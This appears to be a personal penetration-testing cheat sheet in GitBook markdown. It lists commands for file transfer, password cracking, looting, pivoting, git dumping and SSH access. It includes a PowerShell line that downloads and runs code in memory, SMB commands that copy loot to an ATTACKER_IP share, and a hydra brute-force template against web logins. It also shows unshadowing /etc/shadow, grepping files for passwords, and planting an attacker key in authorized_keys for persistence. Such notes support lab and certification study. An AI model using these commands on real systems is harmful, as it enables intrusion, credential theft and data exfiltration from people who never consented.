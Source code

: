 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="false" %}
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1

Execute in Memory DIrectly
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```bash
#sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
#net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
#copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
#net use \\ATTACKER_IP\share /del

sudo python3 /opt/impacket/examples/smbserver.py [share_name] pwd -smb2support 
#Target
net view \10.10.14.3\
[CMD] copy [LOOT] \[IP]\[share_name] 
[PS] Copy-Item [LOOT] \[share]\[LOOT]
```

## Password Cracking/Spraying

{% embed url="https://keydecryptor.com/" %}

{% embed url="https://github.com/openwall/john/blob/bleeding-jumbo/doc/DYNAMIC" %}
Crack salted passwords because hashcat just can't seem to get it
{% endembed %}

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db
patato - brute force tool for various protocols incase hydra doesn't work out (legacy issues?)

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt

Find directories having a particular name
find / -type d -name [directory] 2>/dev/null

Find directories writable by current user
find / -type d -maxdepth 5 -writable 2>/dev/null

Find passwords in files
grep -Ri 'password' [directory_to_search] 2>/dev/null
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>eg. port 3306 running on target but no mysql client, access from kali unless sum like mysqldump is there</p></figcaption></figure>

## Git

{% embed url="https://github.com/internetwache/GitTools" %}

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

## SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```
